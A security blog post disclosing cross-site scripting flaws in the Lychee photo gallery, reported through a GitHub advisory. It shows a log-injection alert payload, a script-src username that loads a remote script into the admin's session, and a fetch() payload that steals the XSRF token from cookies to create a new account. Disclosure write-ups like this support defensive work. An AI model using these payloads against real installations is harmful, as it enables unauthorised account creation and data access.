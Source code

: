Title: Cross-Site Scripting in Lychee
Date: 10-22-2022 14:25
category:security
tags:security, CVE, XSS
meta:security, CVE, XSS

<img class="align-left" src="/media/2022.10/xss_album_title_1.png" alt="XSS in Lychee" width="262">

[Lychee](https://lycheeorg.github.io/) is a self-hosted photo-management and gallery.
I am using the [Lychee](https://lycheeorg.github.io/) application for my personal usage (mostly
sharing pictures with the family).

The application has been greatly improved since the last update of my instance.
I fired up a [docker](https://hub.docker.com/r/lycheeorg/lychee) and start taking a look at the
application for new features.
It was not long before I found a few XSS, one of them could allow unauthenticated users to to gain
logged access to the platform by creating a new account.

I reported the issues to the project and we created a
[Github Security Advisory](https://docs.github.com/en/code-security/repository-security-advisories/about-github-security-advisories-for-repositories):
[https://github.com/LycheeOrg/Lychee-front/security/advisories/GHSA-cr79-38hg-27gv](https://github.com/LycheeOrg/Lychee-front/security/advisories/GHSA-cr79-38hg-27gv).

<!-- PELICAN_END_SUMMARY -->

The lychee application create an administrator account the first time the application is browsed.
This account is the only one with administrative privileges (account management, logs and
diagnostics) and is expected to have full access to the underlying server (shell access). In
addition, this account has access to all photos and albums
uploaded by the different users.

All this privileges made this account attractive for XSS payloads and attacks.
Note that the session cookie was `HttpOnly` and that the `XSRF` cookie was not, it will matter later
in the exploitation phase.

# Insertion points

Only the admin can create a user account while there is a few authenticated insertions points
(photo and album title, username once the user changed it) they are not that interesting as the
admin probably trust the new users or even does not create user accounts.

![xss in album title](/media/2022.10/xss_album_title_0.png)
![xss in album title](/media/2022.10/xss_album_title_1.png)

I focused on unauthenticated insertion points.

## Logs logs logs

The admin user has access to a "Show Logs" administrative function. I quickly noticed that
authentication attempts where displayed in the logs including the user controlled `user` parameter.

## Log injection - alert(1)

It was relatively easy to try to login as the `<script>alert(1)</script>` user and trigger an alert
in the admin session (the screenshot below is when the user change its username but the result is the
same as we inject the logs).

![unauthenticated xss in album title](/media/2022.10/xss_username_log.png)

It is possible for an attacker to perform
[log injection](https://owasp.org/www-community/attacks/Log_Injection) using this entry point.

## Beyond alert(1)

I wanted to go beyond an alert pop-up, we want a user account. Using the username
`<script src='172.0.0.1/a.js"/>`, I was able to inject a longer JavaScript payload that would
request the API endpoint `User::create` passing in POST parameters its username, password and
privileges. I also retrieve the `X-XSRF-TOKEN` value from the cookie as it was not `HttpOnly` (I
recommended to the team to add this flag to the XSRF cookie but that
was not possible as they also needed to access it using JavaScript.)


    :::javascript
    fetch('http://172.17.0.2:80/api/User::create',{
        // create a POST request to be sent to the lychee instance located at `172.17.0.2`
        method: 'POST',
        // setup the headers
        headers: {
            'Content-Type': 'application/json',
            'Accept': 'application/json, text/javascript, */*; q=0.01',
            //the X-XSRF-TOKEN is retrieve from the cookie store as it is not `HttpOnly`
            'X-XSRF-TOKEN': document.cookie.split('=')[1].split('%')[0],
            'X-Requested-With': 'XMLHttpRequest',
    },
        // body of the request containing the payload to create a new user with upload privileges
        body: '{"username":"xss_1","password":"xss","may_upload":true,"is_locked":false}'
    })

Once the new account was created I was able to browse the application as an authenticated user and
upload photos and images on the server.

